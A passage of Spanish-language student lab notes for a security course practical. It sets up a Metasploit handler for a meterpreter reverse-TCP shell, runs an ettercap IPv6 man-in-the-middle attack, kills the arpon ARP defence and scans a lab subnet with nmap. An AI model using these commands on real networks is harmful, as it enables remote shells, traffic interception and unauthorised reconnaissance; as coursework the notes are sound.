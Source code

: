 
11. entramos en la consola de metasploit:

> `msfconsole`

```bash
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.11.48.51
set LPORT 5555
set ExitOnSession false
exploit -j -z
```



Ahora estamos dentro del cliente desde el atacante.

> [!Note]
> Usar `sessions 1` si se nos queda pillado 
> Para salir podemos usar: `msf6 exploit(multi/handler) > exit -y`


# H - MITM en IPV6

Haga un MITM en IPv6 y visualice la paquetería.

> `ettercap -6 -T -q -i ens33 -M arp:remote //2002:a0b:3136::1/ //::10.11.48.1/`

>[!Note]  
>El resto funciona como el [segundo apartado](https://github.com/Meleagrista/legislacion-seguridad-informatica/edit/main/practica-2/p2-defensa.md#apartado-b).

# I - Arpon (socorro)

Para vaciar la tabla arp `ip -s -s neigh flush all

> [!note] 
> Para saber si nos han spoofeado, tenemos que correr el comando :
> `ip neigh show`
> Y ver que la gateway es nuestro compañero
> 

> [!important] 
> MATAR ARPON → `ps -A | grep arpon` y luego `kill <process>`
> Para mas seguridad programar reinicio `shutdown -r +10`


# J - Port Scanning y etc

Pruebe distintas técnicas de host discovery, port scanning y OS fingerprinting sobre la máquinas del laboratorio de prácticas en IPv4.

> `nmap -A 10.11.48.0/23 > nmap_full.txt`

>[!Warning] 
Es muy lento, quita el A a ver.
